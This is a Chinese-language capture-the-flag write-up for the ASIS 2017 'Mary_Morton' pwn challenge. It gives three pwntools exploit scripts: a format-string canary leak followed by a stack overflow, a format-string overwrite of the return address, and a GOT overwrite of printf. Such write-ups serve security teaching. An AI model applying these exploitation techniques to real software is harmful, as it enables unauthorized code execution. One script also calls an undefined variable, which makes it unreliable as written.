






# ASIS-CTF-Finals-2017 - Mary\_Morton

来自于ASIS-CTF-Finals-2017的一道题，网上的wp都千篇一律，这里记录一下我的一些思路。

首先这道题可以从好几种方向去解，我这里介绍三种解法。

首先我们查看一下程序的保护措施，发现开启了`Stack Canary`和`NX`，`RELRO`和`PIE`没有开启。然后运行一下，提示选择我们的武器，第一个是**栈溢出漏洞**，第二个是**格式化字符串漏洞**，说明本题应该可以利用这个两个漏洞去解决问题。



## 保护措施简介

我们先简单的回顾一下这些保护措施是做什么用的。首先是**Stack Canary**，这个用于栈的保护，函数开始执行的时候会先往栈底**插入 cookie 信息**，当函数真正返回的时候会**验证 cookie 信息**是否合法 \(栈帧销毁前测试该值是否被改变\)，如果不合法就停止程序运行 \(栈溢出发生\)。攻击者在覆盖返回地址的时候往往也会将 cookie 信息给覆盖掉，导致栈保护检查失败而阻止 shellcode 的执行，避免漏洞利用成功。

开启 Canary 保护的 stack 结构大概如下：



而这个**NX保护**呢，是**栈不可执行**，将栈设为不可执行，当程序溢出转入shellcode的时候，程序尝试栈执行，此时会抛出异常，并停止程序执行。

**PIE:负责代码段和数据段的随机化工作**。但是只有在开启 ASLR 之后，PIE 才会生效。

**RELRO**：read only relocation。大概实现就是由linker指定binary的一块经过dynamic linker处理过 relocation之后的区域为只读。设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。**RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。** 通过pwndbg可以看到，我们**对GOT表是有写权限的**。



## 解题思路

通过查找字符串，我们在`0x4008da`处发现了一个函数，能够读取flag，这应该就是我们的**目标函**数，我们在IDA中给他改个名字，改为`win()`。

```c
int win()     // 原来函数名是  sub_4008DA
{
  return system("/bin/cat ./flag");
}
```

我们看一下main函数，`sub_4009FF()`函数设置了一个时钟，到时间会自动退出。`sub_4009DA(v3)`是一个打印菜单的函数，不需要管。

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  const char *v3; // rdi
  int v4; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  sub_4009FF();
  puts("Welcome to the battle ! ");
  puts("[Great Fairy] level pwned ");
  v3 = "Select your weapon ";
  puts("Select your weapon ");
  while ( 1 )
  {
    while ( 1 )
    {
      sub_4009DA(v3);
      v3 = "%d";
      __isoc99_scanf("%d", &v4);
      if ( v4 != 2 )
        break;
      sub_4008EB();
    }
    if ( v4 == 3 )
    {
      puts("Bye ");
      exit(0);
    }
    if ( v4 == 1 )
    {
      sub_400960();
    }
    else
    {
      v3 = "Wrong!";
      puts("Wrong!");
    }
  }
}
```

剩下的就是根据输入跳转到对应的函数，我整理了一下，可以直接看下面的代码来分析。

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  const char *v3; // rdi
  int v4; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  set_alarm();
  puts("Welcome to the battle ! ");
  puts("[Great Fairy] level pwned ");
  v3 = "Select your weapon ";
  puts("Select your weapon ");
  while ( 1 )
  {
    print_menu(v3);
    v3 = "%d";
    __isoc99_scanf("%d", &v4);
    switch v4:
      case 1:  starck_buffer_overflow(); break;
      case 2:  format_string(); break;
      case 3:  puts("Bye "); exit(0); break;
      default: puts("Wrong!"); break;
  }
}

unsigned __int64 starck_buffer_overflow()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}

unsigned __int64 format_string()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}
```

这道题，我用了三种解法，大家可以参考一下：

1. 通过格式化字符串漏洞，泄露canary的值，然后通过栈溢出覆盖返回地址（将泄露的canary值传进去）
2. 有了格式化字符串漏洞，我们就可以做到任意位置读写，泄露buf的地址，直接在`buf+0x98`处写入`win()`函数的地址（buf定义在`rbp-0x90h`，然后加上`8字节的old ebp`，所以**返回地址的位置**在`buf+0x98`处）
3. 我们对GOT表具有写权限，通过格式化字符串，**将GOT中的函数的地址改成win**，这里我用改写的是printf的地址，改完之后在调用一次这个函数就可以执行win函数了。

还有要说明的一点是，通过改写返回地址，由于破坏了原有的栈，所以最后会报错，但是我们的win函数会被执行完，能够出结果（别一看到报错信息就以为失败了，flag就在上面，仔细找找）。通过改写GOT表中的函数地址，这种方法没有破坏栈中的内容，所以不会报错。

## 方法一：

首先，无论哪种方法，都需要用到格式化字符串漏洞，所以需要找到格式化字符串的偏移。通过输入`AAAAAAAA%p`的形式去查找，发现`offset = 6`，buf的位置是`rbp-0x90`， canary的位置是`rbp-8`，可以算一下buf和canary的距离，`(0x90-8) / 8 = 17`，所以我们要泄露的canary在`6 + 17 = 23`处，为什么这么算呢，首先我们通过传入`AAAAAAAA%p`的形式去找偏移，`%p`是**以地址的格式打印**内容，我们发现偏移处为6的地方打印的是`0x4141414141414141`，也就是泄露了`buf`的内容，然后在加上`buf`与`canary`的距离，就能直接泄露canary的值了。通过`%23$p`直接打印offset为23的内容。然后在通过`buffer overflow`覆盖返回地址



```c
.text:00000000004009AA                 lea     rax, [rbp+buf]  ; buf的位置是rbp-0x90
.text:00000000004009B1                 mov     rsi, rax
.text:00000000004009B4                 mov     edi, offset format ; "-> %s\n"
.text:00000000004009B9                 mov     eax, 0
.text:00000000004009BE                 call    _printf
.text:00000000004009C3                 nop
.text:00000000004009C4                 mov     rax, [rbp+var_8] ; canary的位置是rbp-8
.text:00000000004009C8                 xor     rax, fs:28h
.text:00000000004009D1                 jz      short locret_4009D8
.text:00000000004009D3                 call    ___stack_chk_fail
```

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
# Stack overflow, bypassing the canary
conn.sendline("%23$p")
canary = int(conn.recvuntil('\n'), 16)
log.success('canary is {:x}'.format(canary))
conn.recvuntil('Exit the battle \n')
conn.sendline('1')

payload = 'A' * 0x88 + p64(canary) + 'AAAAAAAA' + p64(win)
conn.sendline(payload)
recv = rconn.recvall()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

## 方法二：

直接通过格式化字符串修改返回地址，首先我们得**泄露buffer的地址**，怎么找呢，通过格式化字符串漏洞，传递`%1$p`，泄露偏移为1的内容，这个偏移为1的是什么内容呢？是**RSI的内容**，RSI**记录了格式化字符串的地址**，**也就是buf的首地址**。64位程序传递前六个参数通过`RDI`、`RSI`、`RDX`、`RCX`、`R8`、`R9`传递，可以传递多个`%p`查看一下，前五个输出的是不是`RSI`、`RDX`、`RCX`、`R8`、`R9`寄存器中的内容。





得到buf的地址，就可以直接通过格式化字符串漏洞把返回地址改了，这里使用pwntools内置的函数，只需要传递offset（offset在方法一种找到了，是6）和要改写的地址和内容就可以了。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
conn.sendline("%1$p")
buf_addr = int(conn.recvuntil('\n'), 16)
conn.sendlineafter('3. Exit the battle \n', '2')
payload = fmtstr_payload(6, {buf_addr+0x98 : win})
conn.sendline(payload)

recv = conn.recvall()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

## 方法三：

偏移在方法一种找到了，直接利用pwntools改就完事了。我这里改的是`printf`的地址，所以**改完以后需要在调用一次printf**才行。改别的函数也是一样的，可以自行尝试。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

elf = ELF('./a.out')
win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))
offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')
log.success("got.printf is {:#x}".format(elf.symbols['got.printf']))
payload = fmtstr_payload(6, {elf.symbols['got.printf']: win})
conn.sendline(payload)
conn.recvuntil('Exit the battle \n')
conn.sendline('2')
conn.sendline('2')

recv = conn.recv()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

将三种方法的exp整理了一下。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

elf = ELF('./a.out')

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))

offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')

# Stack overflow, bypassing the canary
def func1():
    conn.sendline("%23$p")
    canary = int(conn.recvuntil('\n'), 16)
    log.success('canary is {:x}'.format(canary))
    conn.recvuntil('Exit the battle \n')
    conn.sendline('1')
    payload = 'A' * 0x88 + p64(canary) + 'AAAAAAAA' + p64(win)
    conn.sendline(payload)
    return conn.recvall()

# Format string, read and write anywhere
def func2():
    conn.sendline("%1$p")
    buf_addr = int(conn.recvuntil('\n'), 16)
    conn.sendlineafter('3. Exit the battle \n', '2')
    payload = fmtstr_payload(6, {buf_addr+0x98 : win})
    conn.sendline(payload)
    return conn.recvall()
# Overwrite the got table
def func3():
    log.success("got.printf is {:#x}".format(elf.symbols['got.printf']))
    payload = fmtstr_payload(6, {elf.symbols['got.printf']: win})
    conn.sendline(payload)
    conn.recvuntil('Exit the battle \n')
    conn.sendline('2')
    conn.sendline('2')
    return conn.recv()

recv = func1()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

